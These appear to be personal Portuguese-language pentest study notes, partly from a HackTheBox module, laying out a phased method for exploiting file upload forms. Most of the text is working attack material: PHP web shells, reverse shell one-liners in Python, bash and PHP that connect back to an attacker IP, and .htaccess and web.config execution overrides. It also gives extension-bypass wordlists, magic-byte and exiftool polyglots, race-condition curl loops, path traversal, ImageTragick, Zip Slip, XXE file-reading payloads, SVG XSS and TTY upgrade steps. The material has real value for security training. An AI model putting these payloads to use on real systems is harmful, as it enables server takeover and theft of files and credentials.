

# File Upload

- **Anotacoes gerais + extras**
    
    # File Upload Attacks — Guia Completo Sequencial
    
    ---
    
    **OBS:** toda decisão que você toma depende da tecnologia do backend. PHP → payload PHP. ASP → payload ASP. JSP → payload JSP. Identificar isso é sempre o primeiro passo.
    
    ---
    
    ## FASE 1 — Reconhecimento
    
    ### 1.1 Identificar tecnologia do backend
    
    Três formas, usar todas:
    
    **Wappalyzer:** extensão do navegador — navegar pelo site normalmente (fazer upload padrão, clicar em páginas) para forçar comunicação com o backend e o Wappalyzer identificar.
    
    **Headers de resposta:** no Burp ou DevTools → aba Network, olhar headers como `X-Powered-By: PHP/8.1` ou `Server: Apache` / `Server: Microsoft-IIS`.
    
    **Teste manual de extensão:** acessar `http://IP:PORT/index.php`, `index.asp`, `index.jsp` e ver qual retorna 200.
    
    ### 1.2 Upload legítimo (baseline)
    
    Enviar uma imagem real (JPG ou PNG) e observar:
    
    - **Onde foi salvo?** Inspecionar elemento na imagem de perfil/thumbnail → ver path (`/uploads/`, `/profile_images/`, `/media/`)
    - **Consigo acessar diretamente?** Navegar até `http://IP/uploads/imagem.jpg`
    - **O servidor renomeia?** Se sim, como? (hash MD5, timestamp, mantém nome original)
    - **Qual Content-Type o navegador enviou?** Guardar — usaremos para fingir depois (ex: `image/jpeg`)
    
    ### 1.3 Testar se o diretório de upload executa código
    
    Enviar arquivo com extensão do backend identificado (ex: `teste.php`) contendo:
    
    ```php
    <?php echo "EXEC_OK"; ?>
    ```
    
    Acessar `http://IP/uploads/teste.php`:
    
    - Se aparecer **"EXEC_OK"** → o servidor interpreta código nesse diretório. Seguir para Fase 2.
    - Se aparecer o **código cru** (`<?php echo...`) → o servidor não interpreta. Vai precisar de técnicas da Fase 5.
    - Se der **erro/bloqueio** → existe validação. Seguir para Fase 3 e 4.
    
    ---
    
    ## FASE 2 — Upload Direto (sem bypass)
    
    Se o servidor aceita qualquer extensão e executa código:
    
    ### 2.1 Web shell com comando via URL
    
    Criar `shell.php`:
    
    ```php
    <?php system($_REQUEST['cmd']); ?>
    ```
    
    Fazer upload e acessar:
    
    ```
    http://IP/uploads/shell.php?cmd=id
    ```
    
    Se `id` retornar o usuário do servidor, você tem RCE.
    
    ### 2.2 Web shell interativa
    
    Mais prático do que ficar passando `?cmd=` na URL. Opções:
    
    - **phpbash:** https://github.com/Arrexel/phpbash/blob/master/phpbash.php
    - **p0wny-shell:** https://github.com/flozz/p0wny-shell
    
    Fazer upload e abrir no navegador — interface de terminal direto no browser.
    
    ### 2.3 Reverse shell
    
    Quando o servidor não permite acessar o arquivo pelo navegador, ou quando você quer um shell real:
    
    **No seu terminal (listener):**
    
    ```bash
    nc -lvnp 443
    ```
    
    **Usar porta 80 ou 443** — firewalls geralmente liberam essas portas pois acham que é tráfego web normal.
    
    **Payload PHP para reverse shell:**
    
    - https://github.com/pentestmonkey/php-reverse-shell — trocar IP e porta pelo seu
    - Fazer upload e acessar a URL do arquivo — a conexão chega no seu listener
    
    Se `nc -e /bin/bash` não funcionar (comum — maioria dos servidores não tem `-e` habilitado), usar Python:
    
    ```python
    python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("SEU_IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
    ```
    
    Se RCE funcionou, pular para **Fase 6 (Pós-Exploração)**.
    
    ---
    
    ## FASE 3 — Bypass de Validação Client-Side
    
    **Como identificar:** o erro aparece **instantaneamente** ao selecionar o arquivo, sem request ao servidor (verificar na aba Network do DevTools — se não houve request, é client-side).
    
    ### 3.1 Intercept com Burp Suite
    
    1. Selecionar uma imagem legítima (`.jpg`)
    2. Interceptar o request no Burp
    3. Trocar o campo `filename` de `imagem.jpg` para `shell.php`
    4. Trocar o conteúdo (onde está o binário da imagem) pelo payload: `<?php system($_REQUEST['cmd']); ?>`
    5. Forward
    
    ### 3.2 Remover validação no frontend
    
    Inspect Element → encontrar o input de upload:
    
    ```html
    <input type="file" ... onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
    ```
    
    - Remover `onchange="checkFile(this)"` (a função que valida)
    - Remover `accept=".jpg,.jpeg,.png"` (filtro de extensão no seletor)
    - Agora o navegador aceita qualquer arquivo direto, sem precisar interceptar
    
    ---
    
    ## FASE 4 — Bypass de Validação Backend
    
    Se a Fase 3 falhou (o request foi ao servidor e o servidor retornou erro), a validação é server-side. Agora precisa identificar **que tipo de filtro** está sendo usado.
    
    ### 4.1 Identificar o tipo de filtro
    
    Testar sistematicamente — cada teste te diz algo:
    
    | Teste | Aceito = | Recusado = |
    | --- | --- | --- |
    | `shell.php` com Content-Type `image/jpeg` | Filtra só Content-Type | Filtra extensão ou conteúdo |
    | `shell.jpg` com conteúdo PHP dentro | Não valida conteúdo | Valida magic bytes |
    | `shell.php5` | Blacklist incompleta | Whitelist ou blacklist robusta |
    | `shell.jpg.php` | Valida se extensão "aparece" e não se "termina com" | Valida extensão final |
    | `shell.php%00.jpg` | Vulnerável a null byte | Sanitiza input |
    
    ---
    
    ### 4.2 Bypass de Blacklist
    
    A aplicação tem um array de extensões bloqueadas (ex: `php`, `php7`...). O objetivo é encontrar uma extensão que o servidor **não bloqueie** mas que ainda **execute como código**.
    
    **Passo 1 — Fuzzing de extensões:**
    
    1. Fazer upload de imagem legítima e interceptar com Burp
    2. Enviar para o Intruder
    3. Marcar a extensão do `filename` como posição de ataque
    4. **DESABILITAR URL ENCODING** (senão encoda o `.`)
    5. Payload: listas de extensões alternativas
    
    Wordlists:
    
    - SecLists → `Discovery/Web-Content/web-extensions.txt`
    - SecLists → extensões por linguagem (PHP, ASP, JSP)
    
    Extensões alternativas para testar:
    
    ```
    PHP: .php, .php2, .php3, .php4, .php5, .php7, .phps, .pht, .phtm, .phtml, .pgif, .phar, .phpt, .inc
    ASP: .asp, .aspx, .cer, .asa, .ashx
    JSP: .jsp, .jspx, .jsw, .jsv, .jspf
    ```
    
    **Passo 2 — Conteúdo do arquivo durante o fuzzing:**
    
    ```php
    <?php echo "Hello world!"; ?>
    ```
    
    **Passo 3 — Validar quais extensões realmente executam código:**
    
    Ver no Intruder quais retornaram status 200. Depois rodar curl para confirmar execução:
    
    ```bash
    #!/bin/bash
    input=$1
    while IFS= read -r line
    do
        echo "doing $line:"
        curl -s http://IP:PORT/uploads/shell$line | grep "Hello world"
    done < "$input"
    ```
    
    ```bash
    ./repeat.sh extensoes_aceitas.txt
    ```
    
    **Passo 4 — Trocar conteúdo pelo payload real e explorar:**
    
    ```php
    <?php system($_REQUEST['cmd']); ?>
    ```
    
    ```
    http://IP/uploads/shell.phtml?cmd=id
    ```
    
    ---
    
    ### 4.3 Bypass de Blacklist — Upload de .htaccess (Apache)
    
    **Técnica essencial que aparece em quase todo CTF.**
    
    Se o servidor é Apache e não bloqueia upload de `.htaccess`, você pode forçar o Apache a interpretar **qualquer extensão** como PHP:
    
    **Passo 1 — Upload de `.htaccess`:**
    
    ```
    AddType application/x-httpd-php .jpg
    ```
    
    **Passo 2 — Upload de `shell.jpg` com payload PHP:**
    
    ```php
    <?php system($_REQUEST['cmd']); ?>
    ```
    
    **Passo 3 — Acessar:**
    
    ```
    http://IP/uploads/shell.jpg?cmd=id
    ```
    
    O Apache agora trata `.jpg` como PHP nesse diretório.
    
    ### 4.4 Bypass de Blacklist — Upload de web.config (IIS)
    
    Equivalente ao `.htaccess` para servidores Windows/IIS:
    
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
      <system.webServer>
        <handlers>
          <add name="asp" path="*.jpg" verb="*"
               type="System.Web.UI.PageHandlerFactory" />
        </handlers>
      </system.webServer>
    </configuration>
    ```
    
    Depois fazer upload de `shell.jpg` com payload ASP.
    
    ---
    
    ### 4.5 Bypass de Whitelist
    
    A aplicação só permite extensões específicas (ex: `.jpg`, `.png`, `.gif`). Geralmente mais seguro que blacklist, mas existem bypasses.
    
    **Testar na seguinte ordem:**
    
    **1. Extensão dupla:**
    
    ```
    shell.jpg.php
    shell.png.php
    ```
    
    Funciona se a aplicação valida se a extensão permitida **aparece** no nome ao invés de validar se o nome **termina** com ela.
    
    **2. Null byte injection:**
    
    ```
    shell.php%00.jpg
    shell.php\x00.jpg
    ```
    
    O servidor lê "shell.php" (trunca no null byte) mas a validação vê ".jpg".
    
    **3. Caracteres especiais — gerar combinações:**
    
    ```bash
    for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
        for ext in '.php' '.phps' '.phtml' '.phar' '.phpt' '.pgif' '.phtm'; do
            echo "shell$char$ext.jpg" >> wordlist.txt
            echo "shell$ext$char.jpg" >> wordlist.txt
            echo "shell.jpg$char$ext" >> wordlist.txt
            echo "shell.jpg$ext$char" >> wordlist.txt
        done
    done
    ```
    
    **4. Case manipulation:**
    
    ```
    shell.pHp
    shell.PhP
    shell.PHP
    ```
    
    **5. Trailing dots/spaces (Windows):**
    
    ```
    shell.php.
    shell.php
    shell.php::$DATA
    ```
    
    Usar Burp Intruder com **URL ENCODING DESABILITADO** e o mesmo fluxo de validação com curl.
    
    ---
    
    ### 4.6 Bypass de Content-Type
    
    O header `Content-Type` é definido pelo navegador e pode ser que o servidor valide. Sempre interceptar e setar para o tipo que o upload legítimo usou:
    
    ```
    Content-Type: image/jpeg
    Content-Type: image/png
    Content-Type: image/gif
    ```
    
    ---
    
    ### 4.7 Bypass de Magic Bytes (MIME-Type)
    
    Se o servidor valida os primeiros bytes do arquivo (assinatura mágica) — funções como `getimagesize()`, `finfo_file()`, `mime_content_type()` fazem isso.
    
    **GIF (mais fácil):**
    
    ```
    GIF8
    <?php system($_GET['cmd']); ?>
    ```
    
    **JPEG:**
    
    Prefixar com os bytes `\xFF\xD8\xFF\xE0` antes do payload.
    
    **PNG:**
    
    Prefixar com `\x89PNG\r\n\x1a\n` antes do payload.
    
    **Em hex (Burp):**
    
    Inserir os bytes no início do conteúdo usando o editor hex do Burp.
    
    ---
    
    ### 4.8 Combinando Tudo
    
    Na prática, servidores seguros usam **múltiplas validações simultâneas**. O fluxo de teste combinado:
    
    1. Enviar imagem legítima → guardar extensão aceita e Content-Type
    2. Interceptar com Burp
    3. Trocar conteúdo para: magic bytes corretos + payload PHP
    4. Trocar extensão para bypass de whitelist (ex: `shell.php%00.jpg`)
    5. Manter Content-Type como `image/jpeg`
    6. Forward e verificar execução
    
    **Resumo visual da combinação:**
    
    ```
    filename: shell.php%00.jpg       ← bypass whitelist
    Content-Type: image/jpeg         ← bypass content-type filter
    Conteúdo:
      GIF8                           ← bypass magic bytes
      <?php system($_GET['cmd']); ?> ← payload
    ```
    
    ---
    
    ## FASE 5 — Técnicas Alternativas (quando Fases 2-4 falham)
    
    ### 5.1 Injeção de código via metadados (exiftool)
    
    Se o servidor processa a imagem e de alguma forma interpreta os metadados:
    
    ```bash
    exiftool -Comment='<?php system($_GET["cmd"]); ?>' img.jpg
    ```
    
    Verificar:
    
    ```bash
    exiftool img.jpg
    ```
    
    Fazer upload. Se a aplicação exibe metadados ou processa o comentário, o código pode ser interpretado.
    
    **Importante:** Pode ser necessário combinar com renomeação (`.php.jpg`) ou `.htaccess` para forçar execução.
    
    ### 5.2 Polyglot Files
    
    Diferente de só colocar `GIF8` no início — um polyglot é um arquivo que é **simultaneamente** uma imagem válida E código válido. Passa em validações reais como `getimagesize()`.
    
    ```bash
    exiftool -Comment='<?php system($_GET["cmd"]); ?>' legit.jpg
    ```
    
    Se conseguir renomear para `.php` (ou usar `.htaccess`), o PHP interpreta o código dentro do comentário e ignora o binário da imagem.
    
    ### 5.3 Race Condition
    
    O servidor aceita o upload, salva o arquivo temporariamente, depois valida e deleta se for malicioso. Existe uma **janela de tempo** entre o save e o delete.
    
    **Técnica:**
    
    Terminal 1 — fazer upload em loop:
    
    ```bash
    while true; do curl -s -F "file=@shell.php" http://IP/upload; done
    ```
    
    Terminal 2 — acessar o arquivo em loop:
    
    ```bash
    while true; do curl -s http://IP/uploads/shell.php?cmd=id | grep -v "404"; done
    ```
    
    Também pode usar Burp Intruder com Null Payloads em dois requests simultâneos (um de upload, um de acesso).
    
    ### 5.4 Path Traversal no Filename
    
    Tentar escapar do diretório de upload via o campo `filename` no Burp:
    
    ```
    filename="../../../var/www/html/shell.php"
    filename="....//....//....//var/www/html/shell.php"
    ```
    
    Se o servidor não sanitiza o path, o arquivo é salvo fora do diretório de uploads — possivelmente em um diretório que executa código.
    
    ### 5.5 ImageTragick (CVE-2016-3714)
    
    Se o servidor processa imagens com ImageMagick (comum em redimensionamento automático, thumbnails):
    
    Criar arquivo `exploit.mvg` ou `exploit.svg`:
    
    ```
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com"|id")'
    pop graphic-context
    ```
    
    Fazer upload — se o servidor processar com ImageMagick vulnerável, o comando `id` é executado.
    
    ### 5.6 Zip Slip / Archive Attacks
    
    Se o servidor aceita ZIP/TAR e extrai automaticamente:
    
    Criar arquivo com path traversal no nome interno:
    
    ```bash
    ln -s ../../../var/www/html/shell.php shell.php
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    zip exploit.zip ../../../var/www/html/shell.php
    ```
    
    Ao extrair, o shell é salvo no webroot.
    
    ### 5.7 Upload de SVG com XXE para SSRF
    
    Se o servidor aceita SVG e processa XML:
    
    ```xml
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "http://INTERNO:PORTA/admin"> ]>
    <svg>&xxe;</svg>
    ```
    
    Permite scanear portas internas ou acessar serviços internos que não são acessíveis externamente.
    
    ### 5.8 Upload de DOCX com XXE
    
    DOCX é um ZIP contendo arquivos XML. Se o servidor processa DOCX:
    
    1. Criar um `.docx` normal
    2. Descompactar: `unzip doc.docx -d doc/`
    3. Editar `doc/[Content_Types].xml` — inserir entidade XXE
    4. Recompactar: `cd doc && zip -r ../exploit.docx .`
    
    ---
    
    ## FASE 6 — Pós-Exploração
    
    Após conseguir RCE (qualquer método acima):
    
    ### 6.1 Comando via URL
    
    ```
    http://IP/uploads/shell.php?cmd=id
    http://IP/uploads/shell.php?cmd=cat /etc/passwd
    http://IP/uploads/shell.php?cmd=ls -la /home
    ```
    
    ### 6.2 Reverse Shell
    
    **Listener:**
    
    ```bash
    nc -lvnp 443
    ```
    
    **Payloads (em ordem de confiabilidade):**
    
    Python:
    
    ```python
    python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("SEU_IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
    ```
    
    Bash:
    
    ```bash
    bash -i >& /dev/tcp/SEU_IP/443 0>&1
    ```
    
    PHP:
    
    ```php
    php -r '$sock=fsockopen("SEU_IP",443);exec("/bin/bash -i <&3 >&3 2>&3");'
    ```
    
    **Referência completa:** https://www.revshells.com/
    
    ### 6.3 Upgrade do Shell (TTY)
    
    **Essencial** — sem isso seu shell é instável (sem autocomplete, sem Ctrl+C seguro, sem clear):
    
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
    
    Depois:
    
    ```
    Ctrl+Z
    ```
    
    ```bash
    stty raw -echo; fg
    ```
    
    ```bash
    export TERM=xterm
    ```
    
    Agora você tem um shell completo e interativo.
    
    ---
    
    ## FASE 7 — Limited File Uploads (sem execução direta)
    
    Quando **não é possível executar código** no servidor, mas ainda podemos extrair informação ou atacar usuários.
    
    ### 7.1 XSS via metadados de imagem
    
    Se a aplicação exibe metadados/comentários da imagem na página:
    
    ```bash
    exiftool -Comment='">' img.jpg
    ```
    
    Fazer upload. Se a aplicação renderizar o comentário sem sanitização, o JavaScript executa no browser de quem visualizar.
    
    ### 7.2 XSS via SVG
    
    ```xml
    <svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.cookie)">
    </svg>
    ```
    
    Fazer upload como `xss.svg` e acessar diretamente.
    
    ### 7.3 XXE via SVG — Ler arquivos do servidor
    
    ```xml
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <svg>&xxe;</svg>
    ```
    
    Fazer upload, acessar o SVG e dar `Ctrl+U` (view source) para ver o conteúdo do `/etc/passwd` renderizado.
    
    ### 7.4 XXE via SVG — Ler código-fonte (PHP filter)
    
    Para ler o código da página de upload (ou qualquer PHP), trocar `RESOURCE` pelo nome do arquivo alvo:
    
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
    <svg>&xxe;</svg>
    ```
    
    Acessar o SVG, copiar o Base64, decodar:
    
    ```bash
    echo '<BASE64_CODE>' | base64 --decode
    ```
    
    Agora você tem o código-fonte do backend — pode analisar a lógica de validação e encontrar bypasses específicos.
    
    ### 7.5 XXE via DOCX
    
    Se a aplicação aceita upload de documentos Word:
    
    1. Criar `.docx` normal
    2. `unzip doc.docx -d doc/`
    3. Editar `doc/[Content_Types].xml`:
    
    ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    ```
    
    1. `cd doc && zip -r ../exploit.docx .`
    2. Upload — se o servidor processar o XML interno, retorna o conteúdo do arquivo
    
    ### 7.6 HTML Injection via Content-Type
    
    Se o servidor aceita imagem mas não valida Content-Type na resposta:
    
    1. Fazer upload de imagem normal
    2. Interceptar com Burp
    3. Trocar `Content-Type` para `text/html`
    4. Inserir HTML/JS no final do request (abaixo do content-type, junto ao binário da imagem)
    5. Se o servidor servir o arquivo com `Content-Type: text/html`, o browser renderiza o HTML
    
    ---
    
    ## Checklist Rápido — Ordem de Ataque Black-Box
    
    ```
    □ Identificar backend (Wappalyzer, headers, teste manual)
    □ Upload legítimo (observar path, renomeação, acesso direto)
    □ Upload direto de shell → funcionou? → Fase 6
    □ Bypass client-side (Burp intercept, remover JS)
    □ Bypass backend:
      □ Testar Content-Type falso
      □ Fuzzing de extensões (blacklist)
      □ Upload de .htaccess / web.config
      □ Extensão dupla, null byte, caracteres especiais (whitelist)
      □ Magic bytes (GIF8, \xFF\xD8\xFF)
      □ Combinar tudo acima
    □ Técnicas alternativas:
      □ Exiftool metadata injection
      □ Polyglot files
      □ Race condition
      □ Path traversal no filename
      □ ImageTragick (se ImageMagick)
      □ Zip Slip (se aceita archives)
    □ Se nada executar:
      □ XSS via metadados/SVG
      □ XXE via SVG (ler arquivos, ler código-fonte)
      □ XXE via DOCX
      □ SSRF via SVG
    □ Pós-exploração:
      □ Web shell → reverse shell → upgrade TTY
    ```
    

---

- **File Upload Attacks** (HackTheBox):
    - Primeiro de tudo, checar com Wappalyzer AO fazer um upload padrao e mexer no site (para comunicar com o backend) a linguagem do backend (php, asp, jsp..) ou com deteccao manual, testando ex: **`http://IP:PORT/index.php`** e trocando a extensao.
        
        **(PODEMOS TESTAR XXE)**
        
    - upload de uma shell com **comandos remotos** → Payload:**`<?php system($_REQUEST['cmd']); ?>`** Na URL:**`http://SERVER_IP:PORT/uploads/shell.php?cmd=id`**
        
        OU
        
        upload de uma **web shell interativa** → [https://github.com/Arrexel/phpbash/blob/master/phpbash.php](https://github.com/Arrexel/phpbash/blob/master/phpbash.php)
        
        OU
        
        Reverse Shell → escutar na nossa maquina, e enviar esse arquivo php (trocar IP e Porta): [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
        
    
    ---
    
    - Testar exiftool ao injetar código php dentro da imagem (SYCP)
    - **Tentar injetar a imagem normalmente e apenas mudar o content type para algo como text/html e abrir p ver oq acontece. Se sim, podemos injetar js ou html no fim do resquest (abaixo de content-type, no “codigo” da imagem)**
    
    ---
    
    - **Bypass**
        - **Quando a validacao do site eh CLIENT-SIDE:**
            - Fazer Upload de uma imagem normal, Interceptar com Burpsuite e trocar o **`filename`** (para **.php**) e trocar o **`conteudo`** para o payload (**webshell**)
            - Outra maneira eh retirando a validacao ao editar o codigo frontend, ir em Inspect e clicar ou no botao de “escolher arquivo” ou na imagem de perfil ou no “editar foto”, e ver o campo de validacao, ex: **`<input type="file" ... onchange="checkFile(this)" accept=".jpg,.jpeg,.png">`**
                
                Nesse caso a funcao **`onchange="checkFile(this)"`** esta fazendo a validacao, entao simplesmente retiramos ele completamente (podemos retirar o accept tambem para nao ter que ficar interceptando a requisicao e mudando o nome do arquivo para php) 
                
        - **Quando a validacao tambem eh BACKEND (as de cima nao foram suficiente)**
            - **Blacklist**
                - Quando a aplicacao filtra por blacklist, ela basicamente forma um array de extensoes que serao barradas (ex: **`php`**, **`php7`**..)
                - Para fazer o bypass disso, fazemos um Fuzzing de extensoes com Burp. Interceptamos o request para fazer upload (imagem normal), ai enviamos para o Intruder e fazemos o Fuzzing na extensao. Wordlists para testar:
                    - [Extension PHP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
                    - [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
                    - [Extension ASP](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)
                - **DESABILITAR URL ENCODING!!! (pois se nao ele encoda o `.`)**
                - Inserir como **Conteudo** (onde abaixo na imagem esta como **`PNG`**) um echo →  **`<?php echo "Hello world!"; ?>`**
                    
                    
                    
                - Agora vemos a response dos resultados, ele pode retornar varios que deram sucesso, porem agora rodamos um script de **CURL** para ver qual dos que deram sucesso rodaram o **`Hello World`** (ou seja, que codigo PHP esta funcionando nele):
                    
                    ```bash
                    #!/bin/bash
                    #usage: supply your filename wordlist with the execution of this script. It replaces each line with $line 
                    #./repeat.sh wordlist.txt
                    
                    input=$1
                    while IFS= read -r line
                    do
                            echo 'doing' $line':'
                            curl -I http://94.237.122.70:49205/profile_images/imagem$line
                    done < "$input"
                    ```
                    
                    - **`./repeat.sh wordlist.txt`**
                    - **OBS:** Adicionar grep caso necessario (no caso ele esta pegando so o Header e retornando se o codigo eh **`200`**, **`404`**..
                - Payload PHP → **`<?php system($_REQUEST['cmd']); ?>`**
                - **URL → `…?cmd=id`**
                
                ---
                
            - **Whitelist**
                - Array de extensoes **permitidas** (no geral eh + seguro que blacklist), porem facil de dar bypass.
                - POREM o site tambem pode ter uma whitelist de apenas algumas extensoes poderem rodar comandos PHP, ou seja, precisamos fazer o bypass do upload e o formato que enviamos tambem precisa ser capaz de rodar PHP.
                - Podemos tentar checar quais sao as **extensoes permitidas** fazendo um **FUZZING** com essa Wordlist: [https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
                - A primeira forma eh se a aplicacao valida se a extensao **aparece** no nome em vez de **terminar** com ela, podemos simplesmente entao testar extensao dupla: **`shell.jpg.php`**
                - Outra forma seria injetar caracteres especiais para corromper a interpretação do nome, ex: **`shell.php%00.jpg`**, script para gerar payload:
                    
                    ```bash
                    for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
                    for ext in '.php' '.phps' '.phtml' '.phar' '.phpt' '.pgif' '.phtm'; do
                    echo "shell$char$ext.jpg" >> wordlist.txt
                    echo "shell$ext$char.jpg" >> wordlist.txt
                    echo "shell.jpg$char$ext" >> wordlist.txt
                    echo "shell.jpg$ext$char" >> wordlist.txt
                    done
                    done
                    ```
                    
                
                ---
                
                - **DESABILITAR URL ENCODING!!! (pois se nao ele encoda o `.`)**
                - Inserir como **Conteudo** (onde abaixo na imagem esta como **`PNG`**) um echo:
                    
                    ```bash
                    **<?php echo "Hello world!"; ?>**
                    ```
                    
                    
                    
                - Agora vemos a response dos resultados, ele pode retornar varios que deram sucesso, porem agora rodamos um script de **CURL** para ver qual dos que deram sucesso rodaram o **`Hello World`** (ou seja, que codigo PHP esta funcionando nele):
                    
                    ```bash
                    #!/bin/bash
                    #usage: supply your filename wordlist with the execution of this script. It replaces each line with $line 
                    #./repeat.sh wordlist.txt
                    
                    input=$1
                    while IFS= read -r line
                    do
                            echo 'doing' $line':'
                            curl -I http://94.237.122.70:49205/profile_images/imagem$line
                    done < "$input"
                    ```
                    
                    - **`./repeat.sh wordlist.txt`**
                    - **OBS:** Adicionar grep caso necessario (no caso ele esta pegando so o Header e retornando se o codigo eh **`200`**, **`404`**..
                - Payload PHP → **`<?php system($_REQUEST['cmd']); ?>`**
                - **URL → `…?cmd=id`**
            - **Type Filters**
                - Duas outras formas de bypass/boa pratica sao:
                - **Content-Type Header**
                    - Eh setado pelo navegador, pode ser que tenha validacao disso, portanto sempre deixar simulando que eh uma imagem:
                    - **`Content-Type: image/jpeg`**
                - **MIME-Type (Magic Bytes)**
                    - Caso o servidor valide os primeiros bytes do arquivo (assinatura mágica). Portanto no conteudo PHP/payload inserimos antes:
                        
                        ```bash
                        GIF8
                        <?php system($_GET['cmd']); ?>
                        ```
                        
            - **Limited File Uploads (meta-dados)**
                - **XSS atraves de Comentario de imagem** (a aplicacao tem que exibir o conteudo/metadado da imagem para funcionar):
                    - **`exiftool -Comment='">' imagem.jpg`**
                - **XXE (XML External Entity) atraves de de SVG** (a aplicacao tem que permitir uploads de arquivos XML (ex: svg, docx, pdf..)):
                    - Inserir dentro do arquivo (Ex: SVG):
                    - **`nano ataque.svg`**
                        
                        ```bash
                        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
                        <svg>&xxe;</svg>
                        ```
                        
                    - Agora eh so dar **`Ctrl+U`** e ler no codigo o retorno,
                    - Podemos tamber ler o codigo-fonte com **`php://filter` (TROCAR O `RESOURCE=INDEX.PHP` PARA O NOME DA PAGINA QUE QUEREMOS LER, ONDE EH FEITO O UPLOAD)**:
                        
                        ```bash
                        <?xml version="1.0" encoding="UTF-8"?>
                        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
                        <svg>&xxe;</svg>
                        ```
                        
                        - Agora eh so decodar: **`echo ‘<BASE64_CODE>’ | base64 --decode`**
        - <u>**RESUMINDO:**</u>
        - Enviar imagem legitima e ver se eh aceita, se sim, interceptar e guardar a extensao (usaremos para fingir) e o content-type (ex: image/jpeg) que ja vimos que eh aceito, depois alteramos o conteudo em si da imagem, inserindo GIF8 e o payload embaixo para testar, se nao aceitar significa que esta validando os magic bytes, portanto tentamos de acordo com a imagem que enviamos (ex: jpeg) inserir um cabecalho especifico no lugar do GIF8 (ex jpeg: **`\xFF\xD8\xFF`**, pesquisar..) junto com o payload php embaixo. Se mesmo assim for bloqueado, tentar svg no topico acima de **Limited File Uploads** (nao precisa inserir magic bytes pois o payload ja usa ele por ser genuino)
- Segunda tentativa (SYCP)
    - Nessa segunda tentativa, o site renomeia o nosso arquivo, e só aceita jpg e imagens, e também não conseguimos dar o bypass apenas mudando para **php5** ou **jpg.php** ou **php5?.jpg**
    - Colocamos o proxy do BurpSuite e abrimos ele, fazemos upload normal de uma imagem e vamos no Proxy → Intercept e HTTP history no Burp para ver o que está acontecendo. Tudo estará normal, então agora enviamos um arquivo php para ver o que acontece, e dentro do intercept → o content-type estará diferente. Ou seja, podemos enviar novamente o php, e dentro do Burp mudar o content-type para manter o igual o do jpg e dar um Forward
    - Caso não de certo, existem alguns servidores que são vulneráveis a você injetar código php dentro da imagem  jpg/png:
        - usaremos a tool: **exiftool** para alterarmos a imagem, dentro do terminal:
            - `apt-get update`
            - `apt-get install exiftool`
            - Baixar uma imagem qualquer (img.jpg)
            - `exiftool img.jpg`  ⇒ retornará os metadados (todas informações da imagem), existe um “campo” comentário que podemos alterar
            - `exiftool -comment="blablabla" img.jpg`
            - `exiftool img.jpg`  ⇒ checamos que o comentário foi alterado
            - `exiftool -comment="<?php echo shell_exec(\$_GET[\"cmd\"]); ?>" img.jpg`  ⇒ a barra \ serve para que o comentário não suma com eles pois são caracteres especiais.
        - Fazer upload da imagem, e ver no inspecionar a imagem (talvez ela não apareça de fundo porém estará no source). Abrir e dar o comando **?cmd=ls** no fim da URL, aparecerá o resultado do ls misturado no meio do código da imagem.
        - Após isso é só fazer a shell reversa, dando um listening no terrminal e mudando para o código python shell reverse no lugar do comando (como na Primeira tentativa, olhar lá).
